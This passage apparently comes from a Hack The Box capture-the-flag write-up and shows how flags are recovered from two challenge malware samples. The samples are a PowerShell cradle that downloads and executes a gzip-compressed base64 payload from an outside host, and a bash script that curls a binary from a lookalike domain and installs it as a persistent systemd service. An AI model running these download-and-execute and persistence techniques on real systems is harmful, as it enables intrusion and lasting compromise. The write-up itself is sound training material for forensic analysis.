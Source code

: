``` HTB{th3s3_4l13ns_st1ll_us3_HTTP} ```
if([System.Security.Principal.WindowsIdentity]::GetCurrent().Name -ne 'secret_HQ\Arth'){exit};$w = New-Object net.webclient;$w.Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;$d = $w.DownloadString('http://windowsliveupdater.com/updates/33' + '96f3bf5a605cc4' + '1bd0d6e229148' + '2a5/2_34122.gzip.b64');$s = New-Object IO.MemoryStream(,[Convert]::FromBase64String($d));$f = 'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}';IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

``` HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3} ```

<br>

## Extraterrestrial Persistence

There is a rumor that aliens have developed a persistence mechanism that is impossible to detect. After investigating her recently compromised Linux server, Pandora found a possible sample of this mechanism. Can you analyze it and find out how they install their persistence?

We have the following "malware":

```bash
n=`whoami`
h=`hostname`
path='/usr/local/bin/service'
if [[ "$n" != "pandora" && "$h" != "linux_HQ" ]]; then exit; fi

curl https://files.pypi-install.com/packeges/service -o $path

chmod +x $path

echo -e "W1VuaXRdCkRlc2NyaXB0aW9uPUhUQnt0aDNzM180bDEzblNfNHIzX3MwMDAwMF9iNHMxY30KQWZ0ZXI9bmV0d29yay50YXJnZXQgbmV0d29yay1vbmxpbmUudGFyZ2V0CgpbU2VydmljZV0KVHlwZT1vbmVzaG90ClJlbWFpbkFmdGVyRXhpdD15ZXMKCkV4ZWNTdGFydD0vdXNyL2xvY2FsL2Jpbi9zZXJ2aWNlCkV4ZWNTdG9wPS91c3IvbG9jYWwvYmluL3NlcnZpY2UKCltJbnN0YWxsXQpXYW50ZWRCeT1tdWx0aS11c2VyLnRhcmdldA=="|base64 --decode > /usr/lib/systemd/system/service.service

systemctl enable service.service
```

Decoding the base64 use to create the service, we find the flag:

```bash
[Unit]
Description=HTB{th3s3_4l13nS_4r3_s00000_b4s1c}
After=network.target network-online.target

[Service]
Type=oneshot
RemainAfterExit=yes

ExecStart=/usr/local/bin/service
ExecStop=/usr/local/bin/service

[Install]
WantedBy=multi-user.target
```
